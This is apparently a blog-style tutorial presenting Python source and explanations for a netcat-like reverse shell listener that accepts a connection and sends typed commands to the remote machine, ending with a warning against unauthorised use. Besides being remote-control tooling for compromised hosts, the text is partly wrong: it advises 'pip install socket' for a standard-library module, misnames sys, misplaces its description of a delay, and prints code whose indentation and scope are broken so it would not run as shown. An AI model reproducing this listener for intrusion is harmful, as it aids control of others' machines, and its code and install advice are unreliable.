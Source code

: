 # Introduction

Netcat, a networking tool, facilitates reading & writing to network connections over TCP or UDP.

In this document, I will show you how I created a netcat-eqsue reverse shell listener using Python.

We will be using the following libraries:
1. Socket
2. System
3. Time

The socket library (and the others) should have been included with your install of Python.
If not, you can use the following script in your terminal to install the socket library.
    pip install socket

Btw, if you are running Linux and only have access to the terminal, you can use _nano_ or _vim_.

# Source code

    import socket, sys, time

Imports the libraries needed to create the script.

    def listen(ip, port):
    
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.bind((ip, port))
        s.listen(1)
        print("Listening on port " + str(port))
        
        conn, addr = s.accept()
        print('Connection received from ', addr)

Defining our listen function with ip and ports. We define our sockets and then bind them with ip and ports. 

Here, we create an artificial delay of 1 second.

Then, we print that we are listening on ports, concatenating the port specified.

After a connection has been made, we print as such, concatenating the address.

    while True:
        try:
            ans = conn.recv(1024).decode()
            sys.stdout.write(ans + "\n")
        except ConnectionResetError:
            print("Connection lost.")
            break

Next, we create a while loop. Using the variable name ans (short for answer), we decode the received connection so that we can display it in Python. We then take an input from the user.

    command = input("> ")
        if command.lower() == "exit":
            print("Closing connection.")
            conn.close()
            break

        conn.send((command + "\n").encode())
        time.sleep(1)

After we get the input from the user, we encode it when we send it (so that it is properly sent). We then create an artificial timeout so that the command is sent properly.

    listen("0.0.0.0",9999)

Lastly, we set up our listener.

Obviously, the IP will have to be your computer's address.

The port can be whatever you'd like. Obviously, you cannot use a port that is already in use, or you will have an error upon launching the program.

# Video example of intended functionality



# Areas of improvement

This script could be improved by taking the IP and port numbers as an input variable in the CLI. I may action this in the future.

# WARNING!

Use of a reverse shell to gain access to another computer or network without permission is ILLEGAL.

Please only use this tool in a VM or on your personal network :)
